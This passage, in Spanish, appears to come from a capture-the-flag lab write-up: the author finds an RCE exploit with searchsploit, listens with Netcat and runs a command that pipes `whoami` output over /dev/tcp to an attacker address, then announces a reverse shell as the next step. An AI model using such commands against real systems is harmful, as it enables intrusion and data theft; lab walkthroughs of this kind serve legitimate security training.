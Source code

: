 Usaremos searchsploit para buscar por posibles exploits para dicha versión y veremos que es vulnerable a un **RCE**.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240911195002.png>)

Nos pondremos en escucha con Netcat y ejecutaremos el exploit pasándole como parámetro el comando `whoami > /dev/tcp/192.168.18.10/443` y observaremos como recibimos el output de dicho comando a través de Netcat.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240911194934.png>)

En este punto lo que debemos hacer es enviarnos una Reverse Shell.
